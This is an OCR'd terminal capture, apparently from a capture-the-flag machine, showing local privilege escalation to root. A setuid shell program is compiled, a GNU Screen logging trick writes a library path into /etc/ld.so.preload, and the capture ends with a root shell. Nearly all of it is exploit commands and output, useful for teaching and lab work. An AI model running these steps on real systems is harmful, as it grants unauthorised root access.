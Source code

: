 
ramen@foodctf:/tmp$ cat rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
ramen@foodctf:/tmp$ gcc -o /tmp/rootshell /tmp/rootshell.c
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);


ramen@foodctf:/tmp$ cd /etc
ramen@foodctf:/etc$ umask 000
ramen@foodctf:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"


ramen@foodctf:/etc$ cd /tmp
ramen@foodctf:/tmp$ ls -la rootshell
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
-rwsr-xr-x 1 root root 8488 Nov 19 13:12 rootshell
ramen@foodctf:/tmp$ ./rootshell
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
# id
uid=0(root) gid=0(root) groups=0(root),1003(ramen)
#
